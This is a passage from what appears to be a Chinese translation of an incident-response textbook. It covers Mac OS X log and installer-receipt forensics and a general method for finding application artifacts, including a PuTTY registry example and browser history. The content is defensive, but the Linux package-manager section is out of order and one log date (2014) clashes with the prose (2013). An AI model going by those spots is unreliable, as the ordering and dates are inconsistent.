- **2013.11.09.G80.asl**此文件包含2013年11月9日GID 80的事件。
- **2013.11.09.U0.G80.asl**此文件包含2013年11月9日UID 0，GID 80的事件。这些事件可能包括在sudo上下文切换中执行的操作，因为GID 80是管理员。查看文件名时，请将其与/etc/passwd和/etc/group的内容进行比较，以正确进行映射。

第二种格式在文件名开头有两个字符“BB”。文件名的日期部分通常比一年要多一年。这些文件中的条目通常是用于长时间保留的身份验证事件。

**分析**

对于Mac OS X系统的syslog和ASL数据的分析相当简单。日志主要是基于文本的，因此作为分析员，您有很大的灵活性。根据数量和格式，我们使用一些Unix工具，如cat、grep和awk来解析日志数据。在某些情况下，将数据导入电子表格可以获得最佳视图。最后，如果日志非常庞大并且我们想同时查看几种日志格式，我们可以将数据导入日志管理工具，例如Sawmill、Splunk或Logstash。它们都提供了许多输入转换和良好的搜索功能。

**在网上获取它**

**Logstash** [www.logstash.net](http://www.logstash.net/)**Sawmill** [www.sawmill.net](http://www.sawmill.net/)**Splunk** [www.splunk.com](http://www.splunk.com/)

Mac OS X系统的系统日志从所有守护进程和应用程序收集了大量信息。很难枚举您可能在系统日志中找到的数据类型，因此在接下来的片段中，我们将浏览一些来自我们自己日志的摘录，以说明通过一些搜索可以找到的信息。

OpenBSM进程审计日志数据存储在/private/var/audit中。此日志记录所有身份验证事件并以非ASCII文件格式存储。OpenBSM项目是跨平台的，允许我们使用Linux或BSD平台进行分析。要从数据文件提取可读的人类事件，请使用实用程序praudit。在下面的示例中，使用praudit提取了身份验证活动。显示了三个事件，每个多列表记录以“header”开头，以“trailer”和总消息长度结尾。我们选择了此部分的“simple”输出格式；但是，您可能会发现XML格式的输出更容易解析，因为包括记录标签。

```
header,326,11,AUE_ssauthorize,0,Sat Nov  9 20:27:45 2014, + 134 msec
subject,user,user,staff,user,staff,27748,100005,27749,0.0.0.0
text,system.preferences
text,client /System/Library/PrivateFrameworks/
SystemAdministration.framework/XPCServices/writeconfig.xpc
text,creator /System/Library/PreferencePanes/
SystemAdministration.framework/XPCServices/writeconfig.xpc
text,creator /System/Library/PreferencePanes/
SharingPref.prefPane/Contents/XPCServices/
com.apple.preferences.sharing.remoteservice.xpc
return,success,0
trailer,326
header,88,11,AUE_ssauthorize,0,Sat Nov  9 20:27:45 2014, + 135 msec
subject,-1,root,wheel,root,wheel,27471,100000,27472,0.0.0.0
text,begin evaluation
return,success,0
trailer,88
header,252,11,AUE_ssauthorize,0,Sat Nov  9 20:27:45 2014, + 137 msec
subject,-1,root,wheel,root,wheel,27471,100000,27472,0.0.0.0
text,com.apple.ServiceManagement.daemons.modify
text,client /usr/libexec/launchdadd
text,creator /System/Library/PrivateFrameworks/
SystemAdministration.framework/XPCServices/writeconfig.xpc
return,success,0
```

第一条记录显示名为“user”的用户在2013年11月9日星期六的20:27打开了系统首选项中的共享窗格。请注意，文件的日期和时间（未在摘录中显示）告诉我们日志条目编写的年份。由于AUE_ssauthorize事件类型，第二个记录显示了一个成功的身份验证事件，类似于su root，允许普通用户进行更改。第三个记录显示更改成功。不幸的是，我们无法从此日志中了解更改了哪个属性。

大约三分钟后，记录了以下事件。相同的用户ID通过安全外壳会话登录到系统中，事件类型为AUE_openssh。

```jsx
header,110,11,**AUE_openssh,0,**Sat Nov **9 20:31:29 2014, + 759 msec**
subject_ex,user,user,staff,user,staff,27775,27775,56091,::1
text,successful login user
return,success,0

trailer,110
```

下一个示例是从MacBook Pro上拔出以太网接口的网络电缆后生成的摘录，位于/private/var/log/system.log中：

```
Jan 23 20:08:24 planck kernel[0]: AppleBCM5701Ethernet [en0]:
Link down (womp disabled, proxy idle)
Jan 23 20:08:25 planck.local configd[17]: setting hostname to "planck.local"
Jan 23 20:08:26 planck.local configd[17]: network changed:
v4(en0-:10.1.4.105) DNS- Proxy- SMB-
Jan 23 20:08:26 planck.local netbiosd[11488]: network_reachability_changed:
network is not reachable, netbiosd is shutting down
Jan 23 20:08:26 planck.local com.apple.iCloudHelper[14236]:
AOSKit ERROR: Config request failed,
url=https://setup.icloud.com/configurations/init, requestHeaders=
{
"Accept-Language" = "en-us";
"X-Mme-Client-Info" = "<MacBookPro8,2> <Mac Mac OS X;10.9.2;13C64>
<com.apple.AOSKit/176>";
"X-Mme-Country" = US;
"X-Mme-Nac-Version" = 11A457;
"X-Mme-Timezone" = EDT;
},
error=Error Domain=kCFErrorDomainCFNetwork Code=-1009 "The Internet
connection appears to be offline." UserInfo=0x092e027fa09b
{NSErrorFailingURLStringKey=https://setup.icloud.com/configurations/
init, NSLocalizedDescription=The Internet connection appears to be
offline., NSErrorFailingURLKey=https://setup.icloud.com/
configurations/init}, httpStatusCode=-1, responseHeaders=
(null)
Jan 23 20:08:41 planck.local AddressBookSourceSync[14238]:
tcp_connection_destination_prepare_complete 1 connectx to
10.1.4.4#443 failed: 51 - Network is unreachable
```

让我们浏览日志条目并查看可以提取的信息。第一行中，我们得到一个内核通知，接口已关闭。此事件触发一系列操作，第一个是更新系统的网络配置。通过名为configd的进程将主机的域名更改为“ .local”。然后，configd记录正在释放的地址（10.1.4.105）并注意到DNS、Proxy和SMB（Samba文件共享）服务已停用（注意输出字符串中的减号）。负责SMB协议的部分的一个守护进程，netbiosd，报告正在关闭。在第五行，iCloudHelper进程无法获取“配置请求”的填充。这告诉我们系统与iCloud账户相关联，尽管此时可能已经知道了。还要注意的是，许多服务和应用程序将当前操作系统版本发送到syslog中。当您怀疑主要用户尝试更改日志数据或操作系统本身时，这可能非常有用。最后，最后一行显示AddressBookSourceSync进程无法连接到10.1.4.4。这是另一个可能的线索，可能会告诉您位于远程服务器上的用户数据。

不久之后，以下消息被发送到syslog：

```jsx
Jan 23 20:09:16 planck.local KernelEventAgent[99]: tid 54485244
received event(s) VQ_DEAD (32)
Jan 23 20:09:16 planck.local KernelEventAgent[99]: tid 54485244
type 'afpfs', mounted on '/Volumes/TMBackup', from '//TimeMachine@nas0%28TimeMachine%29._afpovertcp._tcp.local/TMBackup', dead
Jan 23 20:09:16 planck.local KernelEventAgent[99]: tid 54485244
force unmount
//TimeMachine@nas0%28TimeMachine%29._afpovertcp._tcp.local/TMBackup
from /Volumes/TMBackup
Jan 23 20:09:16 planck.local KernelEventAgent[99]: tid 54485244
found 1 filesystem(s) with problem(s)
```

这是另一个线索。看起来，此系统配置为使用远程磁盘进行Time Machine备份。系统与名为nas0的系统上的挂载点（TimeMachine）建立了Apple文件协议（AFP）连接。如果您正在搜索一个陌生的工作区，那么现在是开始在本地局域网中搜索名为nas0的网络存储设备的时候了。当网络电缆被重新插入时，服务重新启动，并且刚刚显示的过程重播（希望成功）。以下摘录显示了网络服务重新启动的情况（请注意第二个日志条目中的加号）：

```jsx
Jan 23 20:11:50 planck kernel[0]: Ethernet [AppleBCM5701Ethernet]:
Link up on en0, 1-Gigabit, Full-duplex, Symmetric flow-control,
Debug [796d,2321,0de1,0300,cde1,3c00]
Jan 23 20:11:50 planck.local configd[17]: network changed: v4(en0+:10.1.4.105) DNS+ Proxy+ SMB+
Jan 23 20:11:50 planck.domainname.net config
```

#### **应用程序安装程序**

当应用程序被安装时，安装程序框架将存储关于放置在驱动器上的文件的信息。在/private/var/db/receipts中，通常会保留每个安装的两个文件：一个包含完整文件清单的材料清单（BOM），以及一个列出安装日期、包标识符和路径访问控制列表的plist文件。清单包含文件名、完整路径、文件系统元数据和32位校验和。以下摘录显示了Autodesk AutoCAD WS最近安装的元数据：

```
     planck# plutil -p com.autodesk.mac.AutoCAD-WS.plist
     { "PackageVersion" => "2.0.3"
       "PackageIdentifier" => "com.autodesk.mac.AutoCAD-WS"
       "InstallPrefixPath" => "Applications"
       "InstallDate" => 2013-09-13 18:28:48 +0000
       "PackageFileName" => "com.autodesk.mac.AutoCAD-WS.pkg"
       "InstallProcessName" => "storeagent"
		 }
```

我们可以从plist文件中得知该应用程序是在2013年9月13日安装的。在关联的BOM中，我们可以获取在安装过程中放置在文件系统上的文件列表。以下输出显示了前六行（完整输出共有234行）：

```jsx
planck# lsbom -pfMTSc  com.autodesk.mac.AutoCAD-WS.bom
     .       drwxr-xr-x
     ./AutoCAD WS.app        drwxr-xr-x
		 ./AutoCAD WS.app/Contents       drwxr-xr-x
     ./AutoCAD WS.app/Contents/Info.plist    -rw-r--r--
           Thu Jul 11 07:25:35 2013        2,303   647692177
     ./AutoCAD WS.app/Contents/MacOS drwxr-xr-x
     ./AutoCAD WS.app/Contents/MacOS/AutoCAD WS      -rwxr-xr-x
           Tue Jul 16 19:36:53 2013        11,630,544      184272354
```

我们使用lsbom工具列出了此BOM的内容。您在此处看到的选项格式化输出，包括（f）文件名、（M）文件模式、（T）格式化修改时间、（S）格式化大小和（C）CRC32校验和。

#### **审查：回答常见的调查问题**

让我们离开细节，解决您在进行IR调查时可能遇到的常见情况。就像第12章一样，我们将给出一些情景和可能的解决方案。每个问题通常有多种回答方法，并且随着新版本的Mac OS X发布，这些方法也会有所变化。

**时间线分析可以使用哪些证据来源？**

| **证物            | 基于时间的证据来源**                                    |
| ----------------- | ------------------------------------------------------- |
| HFS+目录条目      | 文件访问、文件修改、Inode更改、Inode创建时间戳          |
| Syslog和ASL条目   | 条目生成时间                                            |
| 无线连接日志      | 条目生成时间                                            |
| Spotlight索引程序 | 创建和修改时间戳                                        |
| 定时任务          | 预定运行时间，日志中的先前运行时间                      |
| 操作系统安装日期  | 文件访问、文件修改、Inode更改、Inode创建时间戳          |
| 应用程序安装日期  | BOM文件                                                 |
| OpenBSM条目       | 条目生成时间                                            |
| 应用程序plist文件 | 文件系统元数据；应用程序跟踪的日期并在其plist文件中设置 |
| 文档修订          | 修订创建日期                                            |
| 文档元数据        | 应用程序在某些类型的数据文件中存储的日期                |

**镜像系统时运行的服务或可用的共享有哪些？**

| 证物           | 证据来源          |
| -------------- | ----------------- |
| 目录服务       | SMB和AFP共享列表  |
| /var/run的内容 | 状态文件和PID文件 |

**可以从静态镜像中获取哪些系统信息？**

| **证物                                       | 证据来源**                                                   |
| -------------------------------------------- | ------------------------------------------------------------ |
| 系统主机名                                   | /Library/Preferences/SystemConfiguration/preferences .plist  |
| 操作系统版本信息                             | /System/Library/CoreService/SystemVersion.plist              |
| IP地址                                       | 如果在网络首选项中定义，/Library/Preferences/SystemConfiguration/preferences .plist。如果配置为DHCP，/private/var/db/dhcpclient/leases/ |
| 操作系统安装日期                             | /private/var/db/.AppleSetupDone的文件创建日期，或/private/var/db/receipts/com .apple.pkg.InstallMacOSX.plist中的InstallDate值 |
| 系统时区、已连接的打印机（通过颜色配置文件） | /Library/Preferences/.GlobalPreferences.plist。请注意，如果用户允许位置服务设置时区，此文件包含最近位置的纬度和经度信息。 |

**哪些证据来源可以证明文件最近被打开过？**

| **证物                                                       | 可用证据**                                                   |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| /Users/username/Library/ Preferences/com.apple.recentitems .plist | 用户最近运行的10个应用程序、连接的服务器信息以及用户最近访问的文档 |

**哪些证物可以提供已删除文件的证据？**

| 证物                   | 可用证据                                                     |
| ---------------------- | ------------------------------------------------------------ |
| /Users/username/.Trash | 移动到垃圾箱中的项目。如果垃圾箱已清空，则此文件夹将为空。请注意，在Finder之外删除的文件不会移动到垃圾箱中，而是立即取消链接。 |

**哪些文件在启动或用户登录时配置为持久化（自动运行）？**

| **证物                                                       | 可用证据**                   |
| ------------------------------------------------------------ | ---------------------------- |
| /Library/LaunchAgents  /System/Library/LaunchAgents  ~/Library/LaunchAgents | 系统或每个用户启动的代理程序 |
| /Library/LaunchDaemons /System/Library/LaunchDaemons  ~/Library/LaunchDaemons | 系统或每个用户启动的守护程序 |
| /Library/StartupItems /System/Library/StartupItems           | 旧系统启动项（早于launchd）  |

**谁在系统上进行了交互登录？给定用户在系统上登录的日期和时间是什么？**

| 证物     | 可用证据                                                     |
| -------- | ------------------------------------------------------------ |
| 认证日志 | /var/log/authd.log和/var/log/asl中的ASL日志的内容            |
| 文件系统 | 用户配置文件目录（例如/Users/[用户名]）及其相关子目录的创建；账户在交互登录后的配置plist文件 |
| utmp数据 | 当前登录的用户以及正在运行的进程                             |

### **那么呢？**

苹果的Mac OS X在许多组织中已经普及，尽管它在服务器角色中的存在并不常见，但许多组织已经将该平台作为替代Microsoft Windows的选择。我们在每个部门都发现了这个平台，从传统的市场营销和销售部门到软件工程和IT部门。目前可靠执行该平台上的检查的工具数量有限，特别是来自BlackBag Technologies的工具，但您目前最好的选择不是顶级取证套件。通常，对本机环境或Linux系统中的驱动器镜像进行检查会得到最可靠的结果。这个简短的章节涵盖了一些最有用的证据来源，但还有许多其他尚未完全记录的来源。

### **问题**

1. 在一次调查中，网络管理员通知您一个Mac OS X系统似乎产生了与正常活动不一致的大量流量。您如何确定系统上流量的来源？
2. 在进行现场响应时，您会希望获取哪些文件来补充第7章讨论的数据来源？
3. Unix的touch命令允许更新文件的访问和修改时间。还有哪些基于时间的数据来源可以用来确定是否发生了操作？
4. 列举几种攻击者可以用来保持对受攻击的Mac OS X系统的访问权限的持久性机制。您可以使用哪些现场响应命令来自动化对这些机制的审查？

## 第14章 **调查应用程序**

- *在检查法证证据时，通常会发现一些不属于操作系统的物件。用户应用程序，如互联网浏览器、电子邮件客户端、办公套件和聊天程序，在几乎每台计算机上都存储数据。还有一些服务应用程序，如Web服务器、数据库服务器和电子邮件服务器，既支持用户应用程序，又支持IT基础设施。这些数据源通常是调查的关键证据来源。因此，了解如何识别和分析应用程序数据非常重要。

由于应用程序创建者可以选择许多不同的数据存储方式，您会遇到许多不同的数据格式。有些应用程序只使用单一格式，而其他应用程序使用多种格式。创建者通常会选择适合应用程序要求的格式。这些格式可以从标准开源数据结构到封闭专有格式不等。某些应用程序物件与操作系统无关。例如，某些Web浏览器历史记录文件在您使用该浏览器的任何操作系统上都是相同的。在调查时，您可以利用这一点，使用类似的工具或技术来查看来自许多不同操作系统的应用程序数据。

应用程序数据很重要，因为它是除操作系统物件之外的潜在证据层面。与入侵调查相关的一些常见应用程序类别包括电子邮件客户端、Web浏览器和即时通讯客户端。当然，还有许多其他类别——有些专门的书籍致力于仅对单个应用程序进行法证分析。您在调查应用程序时发现的细节可能决定案件的成败。本章中，我们将介绍调查应用程序的通用方法，以及有关流行应用程序类别和解决方案的具体信息。与本书的其他章节一样，我们的目的不是讨论应用程序的所有细节。相反，我们打算涵盖那些根据我们的经验，您最有可能发现最有用的信息。

### **什么是应用程序数据？**

由应用程序创建、存储或维护的数据被视为应用程序数据。应用程序数据的存储和表示方式各不相同。这些存储方法和可用数据经常随时间变化。某些应用程序保持相对稳定，而其他应用程序可能每个月都发生巨大变化。正因为如此，调查应用程序的工具和方法也可能随时间发生巨大变化。由于我们无法预测未来的应用程序会是什么样子，本章涵盖了通用的应用程序调查方法，以及有关特定应用程序的详细信息。让我们快速了解应用程序数据存储的位置，然后再介绍一般方法。

**应用程序数据存储在哪里？**

当您开始检查系统以查找应用程序数据时，您可能会想知道从何处开始。更重要的是，您如何知道系统上安装了哪些应用程序以及相关应用程序数据存储的位置？尽管应用程序可以在自定义位置存储数据，但大多数操作系统都有一套约定。了解这些约定可以帮助您快速发现有用的应用程序数据。在接下来的几节中，我们将提供一些提示，这些提示应该帮助您快速找到Windows、Linux和OS X上的应用程序数据。让我们首先介绍Windows。

#### **Windows**

在Microsoft Windows系统上查找可能的线索时，有一些非常好的位置可以检查。应用程序始终可以尝试使用自定义位置来存储数据，但以下是我们发现最有用的常见位置列表。即使应用程序已从系统中卸载，这些默认位置通常仍会留下一些物件。大多数应用程序经常使用以下一个或多个位置：

- **默认应用程序安装目录** 这是应用程序的可执行代码通常放置在应用程序安装过程中的位置。最常见的是C:\Program Files。按修改日期或创建日期对目录列表进行排序很有用，这可以快速粗略地指示最近安装或更改的应用程序。在64位系统上，请务必检查C:\Program Files (x86)，这是32位应用程序的默认安装位置。
- **默认应用程序数据目录** Windows应用程序倾向于使用一个常见目录来存储应用程序特定的数据，例如配置文件，或用作临时工作空间。在Windows XP和旧版本中，检查C:\Documents and Settings\{username}\Application Data下的所有目录。在Windows Vista和更新版本中，检查C:\ProgramData和C:\Users\{username}\AppData下的所有目录。
- **注册表卸载信息** Windows在注册表中有一个常见位置，应用程序在此处列出以进行卸载。检查HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall下的注册表键。大多数键将具有名为InstallLocation的值，其中列出了应用程序的安装路径。在64位Windows版本上，请务必检查HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall，其中保存了安装的任何32位应用程序的信息。
- **默认注册表配置数据位置** Windows应用程序通常使用一个常见的注册表键来存储应用程序特定的配置信息。检查HKLM\SOFTWARE下的所有下级键。在64位系统上，请务必检查HKLM\SOFTWARE\Wow6432Node，因为您将在那里找到32位应用程序的信息。

#### **OS X**

如果您正在搜索应用程序或相关数据，则应检查Apple OS X的两个主要位置：

- **默认应用程序安装目录** OS X中应用程序的默认安装目录是/Applications。与Windows一样，用户也可以将应用程序放置在自定义位置。
- **应用程序用户数据目录** OS X应用程序通常将用户特定数据放置在用户配置文件下的目录中。默认位置是/Users/{profile}/Library/Application Support。在此目录中，应用程序通常会创建一个与应用程序同名的目录，并将所有相关用户数据存储在其中。

#### **Linux**

在Linux中，应用程序相关数据的位置将根据您正在调查的发行版以及可能存在的任何自定义进行变化。我们使用两种方法来定位应用程序数据。第一种是手动检查文件系统，第二种是查询软件包管理器。让我们对这两种方法进行更详细的了解。

如果没有任何指引，手动检查文件系统可能需要很长时间，并且变得非常乏味。为了帮助您，大多数Linux发行版遵循了一个名为文件系统层次结构标准（FHS）的约定。FHS定义了Linux发行版应该遵循的目录结构。完整的文档可以在FHS网站上找到。

**去网络上找吧**

[www.samba.org/~cyeoh](http://www.samba.org/~cyeoh)

大多数发行版都符合标准的一部分，因此检查以下位置应该能为您提供良好的线索：

- **系统范围的配置数据** 在大多数Linux发行版中，/etc和/usr/local/etc/目录是存储系统范围应用程序配置数据的主要位置。
- **用户应用程序数据** 用户特定的应用程序数据通常位于用户的主目录下的子目录中，默认为/home/{用户名}。
- **可执行文件位置** 您将找到可执行文件的标准目录包括/bin、/sbin、/usr/bin、/usr/sbin、/usr/local/bin和/usr/local/sbin。
- **附加软件** 一些第三方应用程序和应用程序数据安装的位置是/opt。

有时，获取您寻找的答案的更快方法是简单地查询软件包管理器。大多数现代Linux版本都使用一个维护所有已安装软件包的数据库的软件包管理器。两个常见的软件包管理器以及获取已安装软件包列表的相应命令是：

- **基于RPM的发行版** RPM软件包管理器（RPM）被许多流行的Linux发行版使用，其中最著名的是Red Hat Enterprise Linux（RHEL），CentOS，OpenSUSE和Fedora。RPM软件包默认使用.rpm扩展名，而RPM命令行工具被命名为"rpm"。一个查看所有已安装软件包及其安装日期的基本命令是：

  ```
             rpm -qa --queryformat
                '%{name}-%{version}-%{release} %{installtime:date}\\n'
  ```

  一些发行版在使用rpm的同时也使用了Yellowdog Updater, Modified (yum)。拥有yum的系统通常会在/var/log/yum.log中维护一个日志，您可以在其中查看已安装、更新和删除的软件包历史。

  ```
             dpkg --get-selections
  ```

  Dpkg还在/var/log/dpkg.log中维护着一个日志。然而，大多数发行版都会对这个日志进行轮转，因此历史记录是有限的。如果存在的话，你将找到额外的细节，包括执行操作的日期和时间，以及软件包的版本号。Ubuntu发行版还使用高级软件包工具（apt）与dpkg结合使用，apt日志文件可能存在于/var/log/apt目录中。

  当您处理取证镜像时，可以使用虚拟化软件，例如VMware Workstation或Oracle的VirtualBox，来启动镜像的副本。只需确保不要将虚拟机连接到您的网络，以防系统中存在恶意软件！

  - **基于Debian的发行版** 基于Debian的发行版使用dpkg软件包管理器，默认情况下软件包的名称以.deb为扩展名。Ubuntu和Knoppix是两个流行的基于Debian的Linux发行版。要获取已安装软件包的基本列表，请运行以下命令：

### **常规调查方法**

在本章深入讨论具体应用之前，我们想先讨论一些一般的方法，可以用来调查一个应用程序并发现它创建的各种工件。这是一项有用的技能，因为应用程序会随着时间的推移而改变，我们不打算涵盖所有已有的应用程序的细节。还有许多定制的应用程序，其中一些可能只存在于您的组织中。因此，有必要“授人以渔”。

那么我们所说的“调查一个应用程序”是什么意思呢？在这种情况下，我们的意思是确定一个应用程序创建了哪些工件，这些工件可能对您的调查有益。如果一个应用程序没有很好的文档记录，您可能需要进行自己的研究，以确定哪些工件可能是有用的，以及如何解释它们。当几乎没有文档存在时，您可能会得出错误的结论的可能性更大。如果您的调查案件的严重程度很高，比如涉及刑事投诉的案件，您可能需要考虑聘请计算机取证专家来协助。在不那么严重的情况下，进行自己的研究可能是可以接受的。

我们建议您首先利用取证界的资源，以确定可能已经了解到的信息。Forensic Focus、Forensics Wiki以及由应用程序开发人员维护的支持或留言板都非常有用。如果您拥有商业取证软件，它们的私人留言板也是非常有用的资源。

**在网络上获取：Forensics Wiki** [www.forensicswiki.org](http://www.forensicswiki.org/)

**Forensic Focus** [www.forensicfocus.com](http://www.forensicfocus.com/)

流行的取证套件具有解析和展示许多不同应用程序数据的能力。在深入研究之前，您应该检查您首选的取证套件是否支持处理您感兴趣的应用程序数据。两个流行的套件是Guidance Software的EnCase和AccessData的FTK。

**在网络上获取：EnCase** [www.encase.com/products/Pages/encase-forensic/overview.aspx](http://www.encase.com/products/Pages/encase-forensic/overview.aspx)

**FTK** [www.accessdata.com/products/digital-forensics/ftk](http://www.accessdata.com/products/digital-forensics/ftk)

如果上述资源没有您感兴趣的应用程序的信息，您可能只能进行自己的研究和测试。再次确保您已经仔细考虑了您正在处理的案件类型以及如果您的研究被发现有误的后果。

您进行应用程序调查所需的研究技巧与恶意软件分类所需的技能有一些重叠。这并不奇怪，因为恶意软件分类的主要目标之一就是确定恶意软件的功能。然而，在这种情况下，软件是合法的应用程序，而不是恶意软件。我们在第15章的“分类环境”和“动态分析”部分讨论的许多技术在这里也适用。如果您觉得本章节对细节讲解有些不足，我们建议您查看第15章获取更多信息。

让我们看一下您需要执行的高级步骤，然后通过一个例子进行演示：

- **配置环境** 类似于第15章的“分类环境”部分，您需要配置一个有利于进行研究的环境。就像检查恶意软件时一样，您可能需要频繁重新运行测试。具有快照功能的虚拟机非常容易执行此操作。

- **获取应用程序** 如果您还没有应用程序的副本，您需要获取一个。如果软件是免费提供的，您可以直接下载一个副本。如果软件是商业软件，您可能需要购买它。但是，在某些情况下，制造商提供试用版或演示版的软件。

- **配置仪器** 仪器是允许您监视应用程序执行并识别感兴趣的潜在工件的软件或工具。您可以使用的仪器根据操作系统而变化。我们遇到的最常见的操作系统是Microsoft Windows，其中一个最好的工具是Microsoft的Process Monitor。Apple的OS X命令“dtruss”和Linux（以及其他Unix变体）命令“strace”显示进程所进行的所有系统调用。

- **执行安装** 在仪器处于活动状态时执行应用程序安装。您可能会在安装过程中找到有用的工件。这些工件可以帮助回答是否在正在调查的系统上安装了应用程序的问题。安装完成后，您可能希望停止仪器并保存输出。

- **执行应用程序** 您应该尝试以与调查环境中使用的方式执行应用程序。您应该执行适当的配置并执行感兴趣的功能。这将有助于生成相关的工件。

- **审查仪器数据** 执行完成后，停止仪器并审查输出。监视程序执行的输出通常包含数千个事件。您需要搜索输出以查找感兴趣的事件，例如文件创建或修改。

- **根据需要调整仪器并重新进行测试** 如果需要，您可能需要优化仪器以仅监视应用程序可执行文件所在的路径。例如，如果您使用的是Microsoft的Process Monitor，您可能希望添加过滤器以限制文件监视。您可能需要多次执行应用程序并优化过滤器，直到所收集的数据易于分析。

- 注意：

  如果应用程序和操作系统的版本与目标环境不匹配，您可能会错过有价值的工件，或者会为与您的情况无关的工件而进行无谓的搜索。正如您已经了解的那样，应用程序工件在不同版本的软件之间可能会发生变化。您必须特别注意在与您调查的应用程序版本相同或最接近的版本上进行研究。此外，您进行研究的操作系统版本也可能会影响应用程序生成的工件。您应该使用与调查相关的相同操作系统版本，包括补丁级别。

现在让我们通过一个简单的示例场景来帮助说明这个过程。

在这个场景中，您发现攻击者使用了一个名为PuTTY的Windows图形用户界面应用程序。您在二进制文件的Windows预取项中找到了它，但该应用程序不再存在于系统中。PuTTY是一个安全外壳（SSH）客户端应用程序，您怀疑攻击者用它连接到了多个Linux服务器。您的调查问题是：“攻击者连接到了哪些服务器？”那么让我们看看是否有通常会留下的工件可以帮助回答这个问题。让我们逐步进行这个过程：

- 准备好一个Windows XP虚拟机和Process Monitor。
- 将PuTTY的副本放入虚拟机中，并配置Process Monitor以开始捕获“进程名称为putty.exe”的事件。
- 双击PuTTY可执行文件，并登录到您环境中的安全外壳服务器。
- 等待几秒钟，然后断开连接。
- 断开连接后，停止Process Monitor并查看结果。

在我们对此过程进行测试时，共捕获了16秒内的463个事件。 由于此示例中的事件很少，因此可以直接查看它们。与大多数应用程序一样，有趣的事件包括文件的创建或修改。然而，对事件的审查没有发现与文件相关的活动。在Windows下，另一个常见的证据来源是注册表。对事件的审查显示了一些RegCreateValue和RegSetValue操作。特别值得注意的是对HKCU\Software\SimonTatham\PuTTY\SshHostKeys\rsa2@22:10.18.0.42键路径的RegSetValue操作。注册表键的名称表明这是PuTTY存储连接到的主机的公钥的位置。在这种情况下，键值包含主机的IP地址（10.18.0.42）。

- 注意：

  当您发现像这样的注册表键这样的有趣工件时，在得出结论之前最好进行一些研究。在刚提到的注册表键中，“Simon Tatham”是键路径的一部分。因为将该名称与系统上的活动联系起来可能很容易，我们想指出，Simon只是PuTTY软件的作者。在这种情况下，通常会有很多有用的搜索引擎。

根据这些信息，通过检查您正在调查的系统上用户帐户的HKCU\Software\SimonTatham\PuTTY\SshHostKeys注册表键，似乎有可能编制一个攻击者连接到的主机列表。然而，我们还想提到在这种情况下这些信息可能会误导您的一些方法。

第一个潜在问题是当SshHostKeys注册表键下有多个值时。在这种情况下，无法确定每个值何时创建。这是因为Windows注册表分配修改时间戳（而不是创建时间），并且注册表时间戳分配给键而不是值。五个值的列表可能在几周、几个月甚至几年内创建。您可能会错误地认为攻击者连接到了所有五个值，而他们可能只连接到了最新的一个。此外，如果PuTTY是您环境中通常使用的工具，您可能无法确定哪些条目与攻击者相关，哪些条目与合法使用相关。

第二个潜在问题是要认识到这个注册表键是特定于用户的。请确保审查攻击者登录的用户的注册表文件。如果攻击者以“Bob”身份登录，但您检查了“Administrator”用户的注册表文件，您将找不到该注册表键，并可能错误地得出结论说攻击者没有连接到任何主机。当然，还有其他导致误解结果的方法；关键是，要对有限信息所得出的结论保持谨慎。

既然我们已经讨论了确定应用程序可能存储哪些数据的一般方法，让我们详细看看一些特定类别的应用程序。我们根据经验选择了四个类别，这些类别在事件响应过程中最有可能为您提供证据。我们涵盖了Web浏览器、电子邮件客户端、即时通讯应用程序和加密软件。在每个类别中，我们介绍了我们在调查中经常遇到的特定应用程序。对于每个应用程序，我们讨论了应用程序数据存储的位置、数据的格式以及可用于进行分析的工具。让我们从Web浏览器开始。

### **网页浏览器**

网页浏览器是如今最受欢迎的计算机应用之一。网页浏览器是检索、处理和展示数据的应用程序。如今，这些数据通常是超文本标记语言（HTML）和各种多媒体格式。在浏览器渲染后，HTML和多媒体会结合在一起呈现出有用的信息，通常被称为“网页”。您的网页浏览器可以从您的本地计算机或另一台计算机中检索数据，通常称为服务器或站点，可以位于您的本地网络、附近城市或世界的另一边。网页浏览器还可以作为交互过程的一部分将数据发送回这些服务器，例如电子商务、协作环境或计算机游戏。随着网页浏览器的功能不断增强，越来越多的传统应用程序，如文字处理器和电子邮件客户端，正在成为“网页应用程序”——在网页浏览器中具有与传统应用程序非常相似的交互会话。这一趋势使得对事件响应人员了解网页浏览器的工作方式非常重要。

在发送、接收、处理和展示数据的过程中，浏览器在系统上创建了许多工件。几乎所有的网页浏览器都会维护以下内容：

- **历史记录** 当您访问网站时，浏览器通常会记录您访问的统一资源定位器（URL），以及日期和时间。这样您就可以方便地重新访问最近浏览过的站点。
- **缓存** 当您访问站点时，浏览器会存储检索到的数据的本地副本。这用于加速浏览过程，因为某些项目在单个站点或多个站点中重复使用。默认的缓存保存量因浏览器而异，并可由用户进行修改。
- **Cookies（Cookie）** Cookie是站点可能指示您的浏览器存储的小块信息。它们通常用于保存站点首选项和维护会话信息。大多数浏览器可以配置为限制（拒绝）特定站点或所有站点的Cookie。

在调查过程中，这些工件可以提供关键证据，帮助您解释发生了什么。无论您是调查社交工程的受害者，还是调查登录系统并执行恶意操作的攻击者，网页浏览器的工件都可以为您提供有用的线索。

有几个工具能够处理来自所有主要网页浏览器的工件，包括我们在本章涵盖的浏览器。我们不会在每个浏览器部分中反复列出它们，而是在这里列出一次。商业取证套件，包括EnCase和FTK，具有解析大多数浏览器工件的能力，尽管对最新版本浏览器的支持往往滞后。用于分析浏览器工件的最佳商业选项是专注于浏览器工件的工具。我们发现Digital Detective NetAnalysis和Magnet Forensics Internet Evidence Finder这两个工具特别好用。

**上网获取它 Digital Detective NetAnalysis** [www.digital-detective.co.uk/netanalysis.asp](http://www.digital-detective.co.uk/netanalysis.asp)

**Internet Evidence Finder** [www.magnetforensics.com/software/internet-evidence-finder](http://www.magnetforensics.com/software/internet-evidence-finder)

这些商业工具提供了全面的浏览器工件分析。它们的成本不如完整的取证套件那么高，因此对于某些组织来说可能是一个不错的选择。还有许多免费工具可供使用。免费工具往往专注于单个浏览器，因此我们将在本章的每个浏览器部分中提到它们。至少有两个例外——NirSoft的BrowsingHistoryViewer和Mandiant的RedLine——两者都可以在单个视图中显示Internet Explorer、Mozilla Firefox、Google Chrome和Safari的浏览历史。

**上网获取它**

[www.nirsoft.net/utils/browsing_history_view.html](http://www.nirsoft.net/utils/browsing_history_view.html)[www.mandiant.com/resources/download/redline](http://www.mandiant.com/resources/download/redline)

